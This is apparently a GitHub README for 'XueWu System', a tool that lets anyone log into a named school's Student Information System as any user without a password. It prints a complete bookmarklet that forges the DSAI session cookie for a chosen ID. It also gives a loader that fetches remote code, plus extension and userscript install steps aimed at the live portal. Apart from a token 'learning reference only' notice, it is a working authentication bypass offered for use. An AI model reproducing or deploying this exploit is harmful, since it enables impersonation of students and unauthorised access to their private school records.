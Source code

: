 # XueWu System

***Zhuang ShengLi Database Presented***

A system written in Javascript that allows users to log in into Student Information System with any identity without password.

## Run It

There are 4 ways to run the script

1. Run using `javascipt:` URL
   
   1. Copy the following URL:
      
      - Offline Edition (Can be used anywhere without internet connection)
        
        ```javascript
        javascript:(function(){console.log("Hello from XueWu System Core Javascript. (C)opyright 2024 KCISHackers. All Rights reserved. Visit: https://www.github.com/KCISHacker/XueWuSystem for more info.");if(document.getElementById("tweaked")){alert('This page had already been tweaked! Do not run twice!');return;}function tweak(id){document.cookie="DSAI="+id+";path=/";fetch(window.location.origin+'/DSAI/Query/Form_ListDetention?strKeyWord1=').then(response=>response.json()).catch(error=>(function(){console.error(error);if(error.name=='SyntaxError'){alert(id+' does not seem to exist. Check your spelling.');return;}alert("Error while tweaking "+id+"! "+error);}()));}function btn_onclick(){if(document.getElementById("UserId").value==''){alert('Username field cannot be empty!');return;}tweak(document.getElementById("UserId").value);window.location.href="/DSAI/Home";}document.getElementsByName('btn_s')[0].addEventListener("click",function(){btn_onclick();});document.getElementsByClassName("main_logout")[0].innerText="tweaked by 学武系统tweaker";document.getElementsByClassName("ui-input-text ui-body-inherit ui-corner-all ui-shadow-inset")[1].innerHTML="<div style=\"color:red\">This program is for learning reference only, rather than abusing, or you'll take the risk!</div>";document.getElementById("UserId").addEventListener("keyup",function(event){if(event.keyCode===13){event.preventDefault();btn_onclick();}});var mark=document.createElement('div');mark.id='tweaked';document.body.appendChild(mark);}())
        ```
      
      - Online Edition (Need to access to raw.githubusercontent.com, but shorter)
        
        ```javascript
        javascript:(function(){var s=document.createElement('script');s.src='https://raw.githubusercontent.com/KCISHacker/XueWuSystem/main/core.js';document.body.appendChild(s);}())
        ```
   
   2. Visit this URL while you are in [Student Information System Log In Page](https://portal.kcisec.com/China/Account/LogIn). The Javascript should inject correctly. **If you are using Safari, skip this step.**
   
   3. You can save this URL as a bookmark and use it anytime.

2. Install as a browser extension **(may not work for Safari or FireFox)**:
   
   1. Go to [Extension Setting](about://extensions) page in your brower .
   
   2. Enable `Developer Mode` (It should appear somewhere on the page).
   
   3. After enabling this options, you should see a `Load Unpackaged` button on the page.
   
   4. Click it and specify the path of the folder `Chrome Extension` contained in the Git repository.
   
   5. It is now installed on your brower. Do not move, rename, or delete the `Chrome Extension` folder after installation.

3. Install as a Tampermonkey script :
   
   1. Firstly you need to have [Tampermonkey](https://www.tampermonkey.net) installed.
   
   2. Go to file [tampermonkey_script.user.js](https://raw.githubusercontent.com/KCISHacker/XueWuSystem/main/tampermonkey_script.user.js) and [view as raw](https://raw.githubusercontent.com/KCISHacker/XueWuSystem/main/tampermonkey_script.user.js).
   
   3. Tempermonkey should then detect the script and offer an installation page.
   
   4. You can disable the script anytime in the Tampermonkey menu.

4. Run the script manually:
   
   1. Open the JavaScript file named "core.js" from the Git repository.
   2. The file contains comments explaining the purpose of each function.
   3. Try running the functions in the [Developer Tools](https://en.wikipedia.org/wiki/Web_development_tools) Console of your browser while on the [Student Information System Log In Page](https://portal.kcisec.com/China/Account/LogIn).

:) Enjoy

## License

MIT License

Copyright (c) 2024 KCISHackers

Permission is hereby granted, free of charge, to any person obtaining a copy of this software and associated documentation files (the "Software"), to deal in the Software without restriction, including without limitation the rights to use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of the Software, and to permit persons to whom the Software is furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
